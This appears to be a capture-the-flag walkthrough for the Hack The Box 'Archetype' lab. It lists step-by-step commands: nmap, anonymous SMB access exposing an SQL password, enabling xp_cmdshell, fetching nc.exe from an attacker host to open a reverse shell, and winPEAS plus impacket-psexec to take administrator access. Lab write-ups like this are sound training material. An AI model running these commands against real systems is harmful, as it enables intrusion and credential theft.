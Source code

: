 # Archetype

## Nmap & Footprinting

- Run an nmap scan to collect IP, OS, version, scripts, and trace route information
	* `sudo nmap -sV -sC -oA ./nmap/archetype 10.129.181.76`
- TCP port that is hosting the database is port `1433`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/nmap_scan.png)

## SMB Shares

- Run smbclient command to view smb shares
	* `smbclient -N -L \\\\10.129.16.28\\`
	* Name of the non-administrative share available over SMB is `backups`we can tell this is the non-administrative share because all administrative shares are marked with `$`.

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/sharename.png)

- Access the SMB share "backups" to obtain username and password:
	* `smbclient -N \\\\10.129.16.28\\backups`
	* `ls`
	* `get prod.dtsconfig`
	* `exit`
	* `echo "M3g4c0rp123;User ID=ARCHETYPE\sql_svc" > user.txt`

- The password identified in the SMB share is `M3g4c0rp123`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/user_password.png)

- Mssqlclient.py script from impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server. Since the credentials for the share has been acquired, locate and access MS SQL Client:
	* `locate mssqlclient`
	* `/usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc@10.129.16.28 -windows -auth`
	* Password: `M3g4c0rp123`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/accessing_mssqlclient.png)

- Xp_cmdshell extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell. Enable the xp_cmdshell, upload an Netcat listener and a reverse shell to establish a direct command line access.
		* `help`
		* `enable xp_cmdshell`
		* `RECONFIGURE ;`
		* xp_cmdshell `whoami`

	* Locate the "nc.exe" file on machine, if not installed, it will need to be installed.
	* In a separate terminal in Kali navigate to the directory where the "nc.exe" is and run: `sudo python3 -m http.server 80`
		* Go back to xp_cmdshell and download "nc.exe" from local machine to target `xp_cmdshell powershell -c cd c:\Users\sql_svc\Downloads\; wget http://10.10.16.233/nc.exe -outfile nc.exe`
		* The Netcat was downloaded to the target successfully after receiving the "200" status response code.
	* Open another terminal in Kali and navigate to the directory above and and run `nc -lvnp 4444`
		* Execute `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.16.233 4444`

		![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/xp_cmdshell_netcat.png)

		* Navigate to the directory that contains Flag1
		
		![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/flag.txt.png)

		* WinPEAS script can be used in order to search possible paths to escalate privileges on Windows hosts. Since there is no access to the Admin directory, winPEAS will be used to acquire the admin credentials.
			* Enter `powershell` 
			* `wget http://10.10.16.233/winPEASx64.exe -outfile winPEAS.exe`
			* Run `.\winPEAS.exe`
			
			![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/winpeas.png)

			* ConsoleHost_history.txt contains the admin password. Locate the Administrative credentials, copy and paste credentials into Kali.
			* In Kali, enter `locate psexec`
			* Enter `/usr/bin/impacket-psexec administrator@10.129.181.76`
			* Enter password 
			* Locate the root flag
			
			![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/root.txt.png)
			
		


- 
